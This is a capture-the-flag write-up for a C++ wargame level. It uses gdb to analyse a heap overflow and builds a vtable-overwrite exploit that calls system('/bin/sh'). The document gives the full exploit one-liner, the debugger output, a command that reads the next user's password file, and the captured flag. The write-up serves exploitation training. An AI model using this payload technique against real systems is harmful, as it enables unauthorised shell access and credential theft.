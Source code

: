 ## C++ is bad too (level9)

This level's [binary](source.cpp) is written in C++. It contains an _N_ class
which stores a 100-bytes long character buffer and an int. The character buffer
contents are set with the _setAnnotation_ method. So this binary takes at least
one argument (or it exits) and creates two instances of the class with C++'s
"new" keyword. This basically performs an allocation and sets the int member of
the struct to the given value. There is also two operator functions, one for '+'
and an other for '-', which simply adds or substracts the int member values and
returns the result as an int.

So the 2 N instances, let's call them _a_ and _b_, are initialized with 5 and 6
respectively. Then the _setAnnotation_ method is called on _a_ and it copies the
argument provided by the user directly to the member buffer without checking its
length which makes this susceptible to a buffer overflow attack.

Lets see the memory layout after all this:

```shell
# run gdb on the binary
gdb ./level9
# disassemble main to see where to break
(gdb) disass main
...
   0x08048610 <+28>:    movl   $0x6c,(%esp)
   0x08048617 <+35>:    call   0x8048530 <_Znwj@plt> # a is allocated
   0x0804861c <+40>:    mov    %eax,%ebx
   0x0804861e <+42>:    movl   $0x5,0x4(%esp)
   0x08048626 <+50>:    mov    %ebx,(%esp)
   0x08048629 <+53>:    call   0x80486f6 <_ZN1NC2Ei> # a is initialized to 5
...
   0x08048632 <+62>:    movl   $0x6c,(%esp)
   0x08048639 <+69>:    call   0x8048530 <_Znwj@plt> # b is allocated
   0x0804863e <+74>:    mov    %eax,%ebx
   0x08048640 <+76>:    movl   $0x6,0x4(%esp)
   0x08048648 <+84>:    mov    %ebx,(%esp)
   0x0804864b <+87>:    call   0x80486f6 <_ZN1NC2Ei> # b is initialized to 6
...
   0x08048674 <+128>:   mov    %eax,(%esp)
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    0x10(%esp),%eax
...
# break after a's allocation to get its address
(gdb) b *0x0804861c
Breakpoint 1 at 0x0804861c
# break after b's allocation for the same reason
(gdb) b *0x0804863e
Breakpoint 2 at 0x0804863e
# break after the setAnnotation call
(gdb) b *0x0804867c
Breakpoint 3 at 0x804867c
# start the program with an argument
(gdb) run "aaaabbbbccccddddeeeefghijklm"
Starting program: /home/user/level9/level9 "aaaabbbbccccddddeeeefghijklm"

Breakpoint 1, 0x0804861c in main ()
# see a's address
(gdb) x $eax
0x804a008:      0x00000000
# go to second breakpoint
(gdb) c
Continuing.

Breakpoint 2, 0x0804863e in main ()
# see b's address
(gdb) x $eax
0x804a078:      0x00000000
# go to last breakpoint
(gdb) c
Continuing.

Breakpoint 3, 0x0804867c in main ()
```

Now from there we can see that b is located 112 bytes after _a_. This makes
sense since the allocation function in both cases takes a parameter set to
"0x6c", 108 in decimal, which we can guess is the size of the class instance.
From these informations we can see the memory layout of _a_ and _b_:

```
# print 224 bytes of memory starting from a's address
(gdb) x/56wx 0x804a008
0x804a008:      0x08048848      0x61616161      0x62626262      0x63636363
0x804a018:      0x64646464      0x65656565      0x69686766      0x6d6c6b6a
0x804a028:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a038:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a048:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a058:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a068:      0x00000000      0x00000000      0x00000005      0x00000071
0x804a078:      0x08048848      0x00000000      0x00000000      0x00000000
0x804a088:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a098:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0b8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0c8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0d8:      0x00000000      0x00000000      0x00000006      0x00020f21
```

We can see the character buffer from the second word on the first line up to the
end of the second line (from 0x804a00c to 0x804a028), and that it is filled with
our input as expected. At the end of the 7th line there is a word containing the
value 5 (at 0x804a070) which was _a_'s initialization value. _b_ is layed out
simirlarly but with an empty character buffer and its value set to 6 on the last
line (at 0x804a0e0).

Also, both _a_ and _b_ start with the same value 0x08048848. It is the first
word and we can see it again 7 lines down at _b_'s address (0x804a078). If we
check it out, we can see that it points to the address of a function:

```shell
(gdb) x 0x08048848
0x8048848 <_ZTV1N+8>:   0x0804873a
(gdb) x 0x0804873a
0x804873a <_ZN1NplERS_>:        0x8be58955
(gdb) disass _ZN1NplERS_
Dump of assembler code for function _ZN1NplERS_:
   0x0804873a <+0>:     push   %ebp
   0x0804873b <+1>:     mov    %esp,%ebp
   0x0804873d <+3>:     mov    0x8(%ebp),%eax
   0x08048740 <+6>:     mov    0x68(%eax),%edx
   0x08048743 <+9>:     mov    0xc(%ebp),%eax
   0x08048746 <+12>:    mov    0x68(%eax),%eax
   0x08048749 <+15>:    add    %edx,%eax
   0x0804874b <+17>:    pop    %ebp
   0x0804874c <+18>:    ret
End of assembler dump.
```

This really short function takes two parameters, fetches a value at an offset of
0x68 (104) bytes and adds them. This precisely where the numeric value of the
_N_ class is located. So this is the '+' operator for the class. At the next
address, 4 bytes after we have the '-' operator:

```shell
(gdb) x 0x804874e
0x804874e <_ZN1NmiERS_>:        0x8be58955
```

If we overwrite this value by providing the right payload to the binary, the
program segfaults because _b_'s '+' operator is used at the end of the program.

```shell
./level9 "$(python -c 'print "a" * 108 + "bbbb"')"
Segmentation fault (core dumped)
```

So now the exploit. Since the operator is loaded through a pointer to a function
address situated at the start of _b_, what we need to do is overwrite this value
with a valid address whose value is the address of the system function. _b_'s
address is not only where the operator function is located but it is also the
first argument of the operator function (this is what _this_ is, a pointer to
the instance of the class calling the method). So it will be the argument for
system too. Obviously the raw bytes of the address pointing to system are not a
valid shell command, so we need to add a separator and end the string with the
program we want to launch.

| system (4) | padding (104) | _b_'s address (4) | end the command string (9) |
|------------|---------------|-------------------|----------------------------|
| 0xb7d86060 | 0x909090...   | 0x0804a00c        | ";/bin/sh"                 |

```shell
# run the exploit
./level9 $(python -c 'print "\xb7\xd8\x60\x60"[::-1] + "\x90" * 104 + "\x08\x04\xa0\x0c"[::-1] + ";/bin/sh"')
# enjoy
whoami
bonus0
# your flag
cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
